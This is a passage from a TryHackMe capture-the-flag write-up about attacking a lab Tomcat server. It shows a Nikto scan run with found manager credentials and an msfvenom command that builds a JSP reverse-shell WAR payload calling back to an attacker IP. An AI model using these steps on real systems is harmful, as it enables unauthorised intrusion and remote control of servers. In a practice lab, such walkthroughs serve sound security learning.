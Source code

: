 We have 5 directories inside the Tomcat server. Searching each directory going to consume a lot of time. We can let Nikto do all the dirty work.

## Part 5: Nikto, webserver scanner

If you referred to my previous [web scanner writeup](/posts/thm/rp-web-scanning), you should be familiar with Nikto. If you don't, Nikto basically is an all in web scanner tool. It scans everything from top to bottom which includes vulnerability, files, directory, server information and etc. Since we have the login credential for the tomcat application manager, we can perform a deeper scan using the following command.

```
nikto -id bob:bubbles -h http://<Machine IP>/manager/html
```

![niktoscan](/assets/images/THM/2020-08-11-toolsrus/16.png)

All directories and file don't seem to be interesting at all. Let's move on to the next stage.

If you have trouble finding the answer for task 1-8, I strongly recommend you to use [the kali VM by tryhackme](https://tryhackme.com/room/kali).

## Part 6: msfvenom, payload generator

Searching on [the Internet](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/) or read my [tomcat CTF write-up](/posts/thm/thompson), I come across with Tomcat WAR file exploitation. First and foremost, generate the reverse shell payload using the following command.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Tunnel IP> LPORT=4444 -f war > shell.war
```
